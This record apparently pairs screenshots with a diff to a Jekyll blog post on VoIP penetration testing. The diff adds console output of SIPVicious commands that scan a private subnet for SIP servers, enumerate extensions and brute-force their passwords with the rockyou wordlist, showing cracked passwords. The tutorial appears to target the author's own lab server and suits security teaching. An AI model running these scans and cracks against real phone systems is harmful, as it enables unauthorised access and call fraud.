

Before and after one commit to leetspeek/leetspeek, a Jekyll site: the page built from _posts/2019-01-08-VoIP-Penetration-Testing.markdown, in a window 1280 px wide and 1400 px high, scrolled down 1918 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 3091 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
Update 2019-01-08-VoIP-Penetration-Testing.markdown

````diff
--- a/_posts/2019-01-08-VoIP-Penetration-Testing.markdown
+++ b/_posts/2019-01-08-VoIP-Penetration-Testing.markdown
@@ -37,8 +37,13 @@ Like any penetration testing process, all we need to do is to follow the general
 
 We will use the sip scanner `svmap` that is part of SIPVicious toolkit used to audit SIP based VoIP systems and of course we can use nmap for ip range scanning.
 
-![Svmap result](/assets/img/rayenmessaoudi/VoIP%20Penetration%20Testing/1.png)
+```console
+psycor@leetspeek:~$ svmap 192.168.43.0/24
+| SIP Device          | User Agent                        | Fingerprint |
+-------------------------------------------------------------------------
+| 192.168.43.173:5060 | Asterisk PBX 1.6.0.26-FONCORE-r78 | disabled    |
 
+```
 
 The svmap shows that the ip address 192.168.43.173 is a VoIP server so let’s try to gather more information and enumerate some valid extensions.
 
@@ -51,8 +56,14 @@ Before enumerate valid SIP extensions let’s create two extensions for test usi
 
 Now let’s run `svwar` against our SIP device that is also part of SIPVicious toolkit to help us identifying working extension lines.
 
-![Search extensions](/assets/img/rayenmessaoudi/VoIP%20Penetration%20Testing/3.png)
-
+```console
+psycor@leetspeek:~$ svwar -D -m INVITE 192.168.43.173 -e 100-500
+WARNING:TakeASip:using an INVITE scan on an endpoint (i.e. SIP phone) may cause it to ring and wake up people in the middle of the night
+| Extension | Authentication |
+------------------------------
+| 102       | reqauth        |
+| 101       | reqauth        |
+```
 As you can see we have two valid extensions are returned that require authentication.
 
 The invite method is one of the SIP Requests asks a server to establish a session, the INVITE request brings back valid responses.
@@ -61,8 +72,22 @@ The -D option used to scan for default / typical extensions , it’s generally b
 
 Now that we have located valid extensions we need to crack their associated passwords. In order to perform this action we can use `svcrack` (a password cracker for SIP accounts) with password list (rockyou for instance).
 
-![Password crack](/assets/img/rayenmessaoudi/VoIP%20Penetration%20Testing/4.png)
+```console
+psycor@leetspeek:~$ svcrack -u101 -d /usr/share/wordlists/rockyou.txt 192.168.43.173
+ERROR:ASipOfRedWine:We got an unknown response
+| Extension | Password |
+------------------------
+| 101       | iloveyou |
+```
 
+```console
+psycor@leetspeek:~$ svcrack -u102 -d /usr/share/wordlists/rockyou.txt 192.168.43.173
+ERROR:ASipOfRedWine:We got an unknown response
+| Extension | Password |
+------------------------
+| 102       | 123456   |
+
+```
 Ok, Cool! we found two passwords but one cracked extension is enough to proceed for the next part ;)
 
 
````
